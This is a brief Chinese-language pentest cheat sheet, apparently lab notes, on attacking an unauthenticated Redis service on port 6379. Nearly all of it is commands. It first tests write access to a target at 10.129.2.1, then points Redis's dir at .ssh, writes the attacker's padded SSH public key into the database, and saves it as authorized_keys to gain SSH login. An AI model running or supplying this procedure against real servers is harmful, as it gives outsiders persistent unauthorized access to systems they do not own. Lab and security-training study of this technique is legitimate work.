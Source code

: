 # 6379 （redis）

常常用于写入内容

1. 检验能否写入

```bash
redis-cli -h 10.129.2.1 🔗
keys * 展示列表
incr 0xdf 测试写入
get 0xdf 查看写入
```

1. 写入

```bash
config get dir //使用dir命令，看一下目前在哪
config set dir ./.ssh //设置目录是～./ssh
ssh-keygen //本机生成一个ssh密钥
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt  //把公钥写到这个文件中
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set rong //设置进去

redis保存
config set dbfilename "authorized_keys" //配置好
save //保存
```
